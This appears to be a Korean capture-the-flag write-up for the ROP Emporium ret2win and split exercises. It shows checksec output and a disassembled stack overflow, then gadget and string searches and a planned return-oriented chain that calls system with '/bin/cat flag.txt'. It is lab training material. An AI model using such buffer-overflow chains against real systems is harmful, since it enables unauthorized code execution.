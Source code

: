 ```bash
[*] '/home/junheah/ropemp/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './ret2win': pid 7445
[*] Switching to interactive mode
Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

## 1. split
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
main 함수에서 pwnme를 호출해 준다.
```nasm
Dump of assembler code for function pwnme:
   0x00000000004007b5 <+0>:     push   rbp
   0x00000000004007b6 <+1>:     mov    rbp,rsp
   ...
   0x00000000004007f3 <+62>:    lea    rax,[rbp-0x20]
   0x00000000004007f7 <+66>:    mov    esi,0x60
   0x00000000004007fc <+71>:    mov    rdi,rax
   0x00000000004007ff <+74>:    call   0x400620 <fgets@plt>
   0x0000000000400804 <+79>:    nop
   0x0000000000400805 <+80>:    leave
   0x0000000000400806 <+81>:    ret
End of assembler dump.
```
rbp-0x20에 0x60 만큼 입력을 받으므로 bof에 취약하다.

usefulFunction에는 system 함수 호출이 있으나 "/bin/ls" 를 넘겨주므로 함수를 호출하는 것 말고 다른 방법을 찾아야 한다.

```bash
junheah@ubuntu:~/ropemp/split$ rp++ -f split -r 3 | grep 'pop rdi'
0x00400883: pop rdi ; ret  ;  (1 found)
```
rdi에 넣어주는 gadget도 있고,
```bash
gdb-peda$ find /bin
Searching for '/bin' in: None ranges
Found 17 results, display max 17 items:
  split : 0x4008ff --> 0x736c2f6e69622f ('/bin/ls')
  split : 0x6008ff --> 0x736c2f6e69622f ('/bin/ls')
  split : 0x601060 ("/bin/cat flag.txt")
   libc : 0x7ffff7b99d57 --> 0x68732f6e69622f ('/bin/sh')
```
"/bin/cat flag.txt" 문자열도 바이너리 안에 있으니, 다음과 같은 구조의 버퍼를 입력하면 되겠다.
<table>
    <tr><td>dummy data : (0x28 bytes)</td></tr>
    <tr><td>ret addr for pwnme : pop ret</td></tr>
    <tr><td>rdi : "/bin/cat flag.txt"</td></tr>
    <tr><td>ret addr for pop ret : system@plt</td></tr>
</table>
